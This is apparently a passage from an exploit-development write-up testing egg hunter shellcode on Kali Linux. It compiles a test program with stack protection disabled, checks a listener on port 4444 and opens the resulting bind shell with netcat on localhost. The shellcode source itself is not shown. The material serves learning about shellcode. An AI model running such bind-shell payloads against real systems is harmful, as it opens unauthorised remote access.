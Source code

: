 Let's compile the code and execute it:
```console
kali@kali:/tmp$ gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack
kali@kali:/tmp$ ./test_shellcode 
Egg hunter shellcode length:  37
Egg shellcode length:  125

```

We can use netcat to check if the port 4444 is open:
```console
kali@kali:/tmp$ netstat -antp | grep 4444
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      2172/./test_shellcode
```

Finaly, netcat can be used to access our bind shell 
```console
kali@kali:/tmp$ nc -nv 127.0.0.1 4444
(UNKNOWN) [127.0.0.1] 4444 (?) open
id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
whoami
kali
exit
```
